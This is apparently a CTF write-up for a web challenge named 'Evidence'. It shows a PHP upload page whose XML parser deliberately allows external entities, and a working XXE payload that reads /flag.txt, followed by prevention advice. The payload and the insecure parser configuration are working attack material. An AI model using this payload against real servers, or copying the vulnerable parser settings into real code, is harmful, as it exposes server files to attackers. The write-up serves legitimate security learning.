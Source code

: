 ```yaml
---
title: Evidence
date: 2025-06-02 15:33:51 -0700
categories: [CTF]
tags: [web,xxe, pwn]
media_subpath: /images/evidence
image: 
  path: drago.png
---
```

This challenge involves an XXE  vulnerability, which is part of the OWASP Top 10 under A05:2021 – Security Misconfiguration. You're asked to upload an XML file, with a hint about XML entities. By crafting a malicious XML payload that references /flag.txt, you exploit the server’s insecure XML parsing to read sensitive files and retrieve the flag.
# What we are dealing with 
![alt text](intro1.webp)
- I am asked to **submit something in the webpage**.
- The challenge **hints**: *"Be careful with XML entities!"*.
- I am told the **flag is at /flag.txt**.
- I am given the **source code** of index.php.
- The Link takes me to a website where 
![alt text](image.png)

## 1. Reconnaissance and Vulnerability Identification

### Code Analysis

This is whats inside`index.php`:

```php
<!DOCTYPE html>
<?php
  error_reporting(E_ALL & ~E_DEPRECATED & ~E_NOTICE);
?>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dragon Evidence</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <div class="container">
        <h1>Dragon Evidence</h1>

<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES['dragon_file'])) {
        $file = $_FILES['dragon_file']['tmp_name'];
        
        // We demand FREEDOM (from secure defaults)
        libxml_disable_entity_loader(false);
        $dom = new DOMDocument();
        $dom->loadXML(file_get_contents($file), LIBXML_NOENT | LIBXML_DTDLOAD);
        
        echo "<h2>Dragon Evidence Found:</h2>";
        echo "<pre>" . htmlspecialchars($dom->saveXML()) . "</pre>";
    }
} else {
?>
        <p>They said dragons were myths... but we know better.</p>
        <p class="fire">Upload your classified XML evidence to expose the truth.</p>

        <form class="dragons" method="POST" enctype="multipart/form-data">
            <input type="file" name="dragon_file" accept=".xml">
            <input type="submit" value="Submit Evidence">
        </form>
<?php
}
?>

        <footer>
            <p>🔥 The truth is out there... 🔥</p>
        </footer>
    </div>
</body>
</html>
```

From the provided `index.php`, these key lines reveal a critical vulnerability:

```php
CopyEdit
libxml_disable_entity_loader(false);
$dom = new DOMDocument();
$dom->loadXML(file_get_contents($file), LIBXML_NOENT | LIBXML_DTDLOAD);
```

Observations:

- `libxml_disable_entity_loader(false)` ➔ External Entities **are allowed** (which is bad).
- `LIBXML_NOENT` ➔ **Expands entities** (like `&xxe;`).
- `LIBXML_DTDLOAD` ➔ **Loads external DTDs** (Document Type Definitions).
- This only leads me to believe that its vulnerable to **XXE (XML External Entity Injection)**.

---

## 2. Understanding XXE (XML External Entity Injection)

**OWASP explination:** https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

**my explanation:** It's a vulnerability where untrusted XML input can define entities to read arbitrary files on the server or interact with internal resources.

- Here, we want to **read `/flag.txt`**.

---

## 3. Attack Strategy

**Goal**:

Inject an XML that:

- Defines a **custom entity** that points to the file `/flag.txt`.
- Uses that entity inside the body so it gets **expanded** and shown.

---

## 4. Payload Construction

I built the payload manually:

```xml
CopyEdit
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root>
    <evidence>&xxe;</evidence>
</root>

```

**Explanation**:

| Part | Meaning |
| --- | --- |
| `<!DOCTYPE root [...]>` | We declare a DTD (Document Type Definition). |
| `<!ENTITY xxe SYSTEM "file:///flag.txt">` | We create an **external entity** called `xxe` that loads `/flag.txt`. |
| `<evidence>&xxe;</evidence>` | We reference the entity so its contents are included in the output. |

---

## 5. Execution

**Steps performed**:

1. Save the payload into a file called `exploit.xml`.
2. Visit the challenge webpage.
3. Upload `exploit.xml` in the file uploader.
4. Submit it.
5. Server processes the XML → **expands** the entity → **reads `/flag.txt`** → flag appears in the webpage.
![alt text](flag.webp)

---

## 6. Why Did This Work?

- PHP’s `DOMDocument` library **loaded** the XML without disabling entity expansion.
- I  **injected** a malicious XML that **referenced a sensitive file**.
- When PHP parsed it, it **replaced** `&xxe;` with the contents of `/flag.txt`.
- The website **printed** the parsed XML back to me so I  could **see the flag**.

---

## 7. How would you prevent XXE?

If you were the developer, you should:

- **Disable DTD Processing in the XML Parser**
- **Disallow External Entity Resolution**
- **Use secure parsers/libraries (OWASP provides exact parser configs for Java, .NET, Python, PHP, etc.)**
- **Prefer safer formats like JSON over XML**

---